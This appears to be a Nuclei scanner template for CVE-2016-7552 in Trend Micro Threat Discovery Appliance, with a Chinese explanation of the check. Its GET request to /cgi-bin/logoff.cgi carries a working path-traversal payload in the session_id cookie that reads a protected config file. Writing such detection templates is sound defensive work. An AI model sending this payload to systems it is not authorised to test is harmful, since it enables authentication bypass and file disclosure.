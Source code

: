 ```yaml
    - https://github.com/rapid7/metasploit-framework/pull/8216/commits/0f07875a2ddb0bfbb4e985ab074e9fc56da1dcf6
    - https://github.com/ARPSyndicate/cvemon
    - https://github.com/ARPSyndicate/kenzer-templates
  classification:
    cvss-metrics: CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H
    cvss-score: 9.8
    cve-id: CVE-2016-7552
    cwe-id: CWE-22
    epss-score: 0.96711
    epss-percentile: 0.99651
    cpe: cpe:2.3:a:trendmicro:threat_discovery_appliance:2.6.1062:r1:*:*:*:*:*:*
  metadata:
    max-request: 1
    vendor: trendmicro
    product: threat_discovery_appliance
  tags: cve2016,cve,msf,lfi,auth,bypass,trendmicro

http:
  - method: GET
    path:
      - "{{BaseURL}}/cgi-bin/logoff.cgi"

    headers:
      Cookie: "session_id=../../../opt/TrendMicro/MinorityReport/etc/igsa.conf"

    matchers-condition: and
    matchers:
      - type: word
        part: body
        words:
          - "Memory map"

      - type: status
        status:
          - 200
```

### 检测流程说明

1. **请求方式**：GET  
   目标路径为 `/cgi-bin/logoff.cgi`。

2. **关键Header**：  
   设置 `Cookie: session_id=../../../opt/TrendMicro/MinorityReport/etc/igsa.conf`，通过目录遍历指向敏感配置文件。

3. **响应匹配**：  
   - 响应体中包含 `"Memory map"` 字样；
   - HTTP 状态码为 200。

   满足上述条件则判定目标存在该漏洞。
